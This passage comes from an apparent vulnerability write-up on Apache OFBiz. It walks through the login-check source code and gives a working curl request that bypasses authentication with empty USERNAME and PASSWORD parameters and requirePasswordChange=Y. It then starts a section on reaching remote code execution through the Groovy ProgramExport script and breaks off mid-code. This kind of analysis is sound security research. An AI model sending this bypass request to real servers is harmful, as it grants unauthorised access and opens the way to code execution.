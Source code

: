 494:       if (!"success".equalsIgnoreCase(checkLoginReturnString)) {
495:           // previous URL already saved by event, so just do as the return says...
496:           eventReturn = checkLoginReturnString;
497:           // if the request is an ajax request we don't want to return the default login check
498:           if (!"XMLHttpRequest".equals(request.getHeader("X-Requested-With"))) {
499:               requestMap = ccfg.getRequestMapMap().getFirst("checkLogin");
500:           } else {
501:               requestMap = ccfg.getRequestMapMap().getFirst("ajaxCheckLogin");
502:           }
503:       }
504:   } else {
505:       String[] loginUris = EntityUtilProperties.getPropertyValue("security", "login.uris", delegator).split(",");
506:       boolean removePreviousRequest = true;
507:       for (int i = 0; i < loginUris.length; i++) {
508:           if (requestUri.equals(loginUris[i])) {
509:              removePreviousRequest = false;
510:           }
511:       }
512:       if (removePreviousRequest) {
513:           // Remove previous request attribute on navigation to non-authenticated request
514:           request.getSession().removeAttribute("_PREVIOUS_REQUEST_");
515:       }
516:   }
{%endhighlight%}

* The code checks if `requestMap.securityAuth` is true, if so, it invokes a security handler named `checkLogin()`. 

* The return value from the `checkLogin()` event is stored in `checkLoginReturnString` and if the return value is not `success` (case-insensitive), it indicates authentication failure. 

This means if we are able to return `success` for checkLogin(), our request will continue ! We have already seen how to bypass the authentication in the first part of this article :)

Let's try and access the same path but this time using the authentication bypass we did above: <a href="https://localhost:8443/webtools/control/ping?USERNAME&PASSWORD=&requirePasswordChange=Y">https://localhost:8443/webtools/control/ping?USERNAME&PASSWORD=&requirePasswordChange=Y</a>

{% highlight bash lineos %}
curl --insecure "https://localhost:8443/webtools/control/ping?USERNAME&PASSWORD=&requirePasswordChange=Y"
{%endhighlight%}

This time, rather than going to login page, the application will return `PONG` confirming that we have bypassed the authentication successfully !

## Remote Code Execution

At the beginning of this article, we noticed `groovyScripts` directory, let's explore the directory and see if it can help us getting RCE.

**File**: *ofbiz-framework-release18.12.05/framework/webtools/groovyScripts/entity/ProgramExport.groovy*
{% highlight java lineos %}
   31: String groovyProgram = null
   32: recordValues = []
   33: errMsgList = []
   34: 
   35: if (!parameters.groovyProgram) {
   36:     groovyProgram = '''
   37: // Use the List variable recordValues to fill it with GenericValue maps.
   38: // full groovy syntaxt is available
   39: 
   40: import org.apache.ofbiz.entity.util.EntityFindOptions
   41: 
